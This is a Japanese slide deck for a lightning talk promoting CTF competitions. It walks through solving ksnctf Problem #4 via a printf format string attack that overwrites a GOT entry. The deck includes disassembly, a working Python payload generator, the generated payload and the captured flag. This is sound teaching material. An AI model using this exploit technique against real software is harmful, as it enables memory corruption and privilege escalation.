

<!-- $theme: default -->

# CTF(Capture The Flag) のススメ



プラットフォーム開発G 濱本 <<t.hamamoto@suvt.co.jp>>

---

# もくじ

- 発表の目的: 仲間・師匠が欲しい (～1分)
- CTF(Capture The Flag)とは (～1分)
  - どのような技術レイヤが主流か (～2分)
  - こんなときに役に立つ……かも？ (～2分)
- やってみよう - デモ (5分)
- まとめ (～2分)

---

# 発表の目的: 仲間・師匠が欲しい

こんなことを話したり、教えあったりしたいので、響きそうな人を探すのがLTの目的です。

- アルゴリズムや実装、デザインパターンの話
- パーソナルコンピュータやオープンソースの歴史
  - "Richard M. Stallman に憧れて HHK 買いました" とか
- 次の DEFCON 一緒に出ませんか？とか
- ゲームの解析の話とか
- あと、将棋を教えてくれる人も募集中です

---

# CTF(Capture The Flag)とは

> コンピュータセキュリティの分野におけるキャプチャー・ザ・フラッグ（CTF）は、コンピュータセキュリティ技術の競技である。

> CTFは通常、参加者に対しコンピュータを守る経験に加え、現実の世界で発見されたサイバー攻撃への対処を学ぶ教育手法として企画されている。

> 「ハッカーコンテスト」「ハッキング大会」「ハッキング技術コンテスト」「ハッカー大会」などとも訳される。

>> https://ja.wikipedia.org/wiki/%E3%82%AD%E3%83%A3%E3%83%97%E3%83%81%E3%83%A3%E3%83%BC%E3%83%BB%E3%82%B6%E3%83%BB%E3%83%95%E3%83%A9%E3%83%83%E3%82%B0 "コンピュータセキュリティ" より引用

---

## どのような技術レイヤが主流か

1. リバースエンジニアリング : プログラム解析・改竄
2. Forensics : 消去・改竄されたデータの復元・証跡確保
3. Pwnable[^1] : プログラムの脆弱性を利用してクラッキング
4. Network : ネットワークのパケット解析とか
5. Cryptanalysis : 暗号解読。RSA暗号はよく出てくるイメージ
6. Miscellaneous : とんち問題。柔軟な発想がカギ

> https://ja.wikipedia.org/wiki/%E3%82%AD%E3%83%A3%E3%83%97%E3%83%81%E3%83%A3%E3%83%BC%E3%83%BB%E3%82%B6%E3%83%BB%E3%83%95%E3%83%A9%E3%83%83%E3%82%B0 "問題の分野" より一部引用

実際の問題は(1)～(5)を複合させたものも多いです。

[^1]: Own をもじって Pwn と呼ぶ Jargon のようです

---

## こんなときに役立つ……かも？

- サービスしてるサーバがクラックされちゃった
- 壊れたプログラムの振舞いを直したい。ソースコードがない
- 誤って大切な ~~エロ^H^H~~ 業務データを削除してしまった

---

# やってみよう - デモ

http://ksnctf.sweetduet.info/

@kusano_k さん、その筋で有名な方が公開しているCTFです。

ここでは Problem #4 を解説しつつ、やってみます。手元にPCがある人は一緒に試してみましょう。

ssh でログインしてみます。

```bash
ssh -v q4@ctfq.sweetduet.info -p 10022
```

DNS逆引きしてるのか、ログイン直前に環境を初期化しているのか、ちょっとログイン完了に時間かかる。

---

`flag.txt` があります。これがフラグっぽいですが、ログインユーザは `q4` なので、パーミッション的に読めないです。

```
[q4@localhost ~]$ ls -l
total 16
-r--------. 2 q4a  q4a    22 May 22  2012 flag.txt
-rwsr-xr-x. 1 q4a  q4a  5857 May 22  2012 q4
-rw-r--r--. 1 root root  151 Jun  1  2012 readme.txt
```

`q4` のプログラムがありますね。suid のパーミッションが付与されてるので、こいつをどうにかすればフラグが読めそうです。実行しつつ色々試してもいいですが、時間の都合でさっさと逆アセンブルしてみます。

```bash
[q4@localhost ~]$ objdump -d q4 | less
```

---

```text
080485b4 <main>:
```

`fopen` でファイルを開いてる箇所がありました。怪しいですね。フラグ読み込みの処理の匂いがします。
が、直前に jmp/jne 命令があり、ループや終了処理に飛ばされてしまい辿りつけません。なんとかして、jne の先  `0x8048691` に続く処理を実行したいのだけど。

```text
804867f: eb 5b                jmp    80486dc <main+0x128>
8048681: 8b 84 24 18 04 00 00 mov    0x418(%esp),%eax
8048688: 85 c0                test   %eax,%eax
804868a: 0f 95 c0             setne  %al
804868d: 84 c0                test   %al,%al
804868f: 75 89                jne    804861a <main+0x66>
8048691: c7 44 24 04 e6 87 04 movl   $0x80487e6,0x4(%esp)
8048698: 08
8048699: c7 04 24 e8 87 04 08 movl   $0x80487e8,(%esp)
80486a0: e8 ff fd ff ff       call   80484a4 <fopen@plt>
```
---

確証を得るために `fopen` に渡されていた文字列について見てみます。
`$0x80487e8` は `flag.txt` の文字列でした。ビンゴですね。

```text
Contents of section .rodata:
 8048798 03000000 01000200 00000000 57686174  ............What
 80487a8 27732079 6f757220 6e616d65 3f004869  's your name?.Hi
 80487b8 2c200044 6f20796f 75207761 6e742074  , .Do you want t
 80487c8 68652066 6c61673f 006e6f0a 00492073  he flag?.no..I s
 80487d8 65652e20 476f6f64 20627965 2e007200  ee. Good bye..r.
 80487e8 666c6167 2e747874 00                 flag.txt.
```

---

さて、ちょっと遡って、入力文字列を扱う処理を見てみます。

```text
080485b4 <main>:
```

`fgets` でユーザの入力を受け取り -> `printf` で表示してそうです。「ユーザが入力できる」ということは、攻撃できる可能性があります。

```text
80485e4: e8 9b fe ff ff       call   8048484 <fgets@plt>
80485e9: c7 04 24 b6 87 04 08 movl   $0x80487b6,(%esp)
80485f0: e8 bf fe ff ff       call   80484b4 <printf@plt>
80485f5: 8d 44 24 18          lea    0x18(%esp),%eax
80485f9: 89 04 24             mov    %eax,(%esp)
80485fc: e8 b3 fe ff ff       call   80484b4 <printf@plt>
8048601: c7 04 24 0a 00 00 00 movl   $0xa,(%esp)
8048608: e8 67 fe ff ff       call   8048474 <putchar@plt>
804860d: c7 84 24 18 04 00 00 movl   $0x1,0x418(%esp)
8048614: 01 00 00 00
```

---

<h1 align="center">
Format String Attack
</h1>

---

# Format String Attack とは

printf の書式文字列を利用して、意図しないメモリ読み書きをおこなう手法です。`printf('%d', value)` と書くべきところを `printf(value)` としちゃうと攻撃対象。

- `%d` `%x` あたりを利用してスタックから値を読み出したり
- `%n` を利用して特定アドレスの値を上書いたり

という攻撃が可能となります。

今回はこの脆弱性を利用して、GOT(Global Offset Table)を上書く手法で目的を達成したいと思います。

---

# Format String Attack できるかな?

試してみましょう。`q4` のプログラムに `%x` を沢山渡してみたら色々表示されました。やったあ。

```
[q4@localhost ~]$ echo -n 'XXXX %x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x' | ./q4
What's your name?
Hi, XXXX 400,33a8c0,8,14,c7cfc4,58585858,2c782520,252c7825,78252c78,2c78252c,252c7825,78252c78
Do you want the flag?
```

出力の6番目を見ると、入力した `XXXX` = `0x58585858` が含まれているっぽい感じです。スタックの6番目に入力した文字列保存する変数が存在しているのだと推測します。覚えときます。

---

さきほど見ていた入力処理(fgets -> printf)の流れに putchar がありました。いいところにあるので攻撃に使います。
さて、下記が putchar の GOT です。main から putchar@plt が call され、`jmp *0x80499e0` で実際の putchar のアドレスにジャンプするような処理です。このジャンプ先をお目当ての `0x8048691` に書き換えてみたいですね。

```text
08048474 <putchar@plt>:
 8048474: ff 25 e0 99 04 08 jmp    *0x80499e0
 804847a: 68 08 00 00 00    push   $0x8
 804847f: e9 d0 ff ff ff    jmp    8048454 <_init+0x30>
```

---

http://inaz2.hatenablog.com/entry/2014/04/20/041453

解説サイトを見ながら、GOT上書き用の攻撃コードを用意しました。

```python
import struct, sys
def byte2echo(v):
  return 'echo -e "%s"' % repr(v).strip("'")\
                                 .replace('$', '\\$')
got_addr  = int(sys.argv[1], 16)
goal_addr = int(sys.argv[2], 16)
buf_idx   = int(sys.argv[3], 10)

got = ''.join([struct.pack('<I', got_addr+i)
               for i in range(0, 4)])
a = map(ord, struct.pack('<I', goal_addr))
a[3] = (a[3] - a[2]) % 0x100
a[2] = (a[2] - a[1]) % 0x100
a[1] = (a[1] - a[0]) % 0x100
a[0] = (a[0] - len(got)) % 0x100
goal = ''.join(["%%%dx%%%d$hhn" % (a[i], buf_idx+i)
                for i in range(0, 4)])

print(byte2echo(got + goal))
```

---

`exploit.py <上書きたいアドレス> <目当てのジャンプ先> <スタックのインデックス>` とすると echo の書式で攻撃用文字列を出力します。

```bash
$ python exploit.py 080499e0 08048691 6
echo -e "\xe0\x99\x04\x08\xe1\x99\x04\x08
         \xe2\x99\x04\x08\xe3\x99\x04\x08
         %129x%6\$hhn%245x%7\$hhn%126x%8\$hhn%4x%9\$hhn"
```

出力される内容は `0x80499e0` 〜 `0x80499e4` のアドレスへ `0x8048691` を1バイトずつ書きこむようなものです。

※紙面都合で改行していますが、実際には1行です

---

もう誰も聞いていない気もしますが、実際に攻撃してみたいと思います。

```bash
[q4@localhost ~]$ echo -e "\xe0\x99(...略...)$hhn" | ./q4
```

```text
What's your name?
# (なんか空白とか数値とかが沢山)
FLAG_nwW6eP503Q3QI0zw
```

おー、`FLAG_` で始まる文字列が表示されましたね！これがいわゆるフラグと呼ばれるものであり、問題を問いた証明となります。
「一体それの何が面白いの?」と思われるかもしれませんが、問題に苦労すればするほど、フラグを見付けたときの達成感は格別なものがあるんです。

---

# まとめ

本スライドや資料は

http://192.168.10.153:10080/snippets/35

からダウンロードできます。

ちょっとでも面白そうと思った方はやってみましょー。
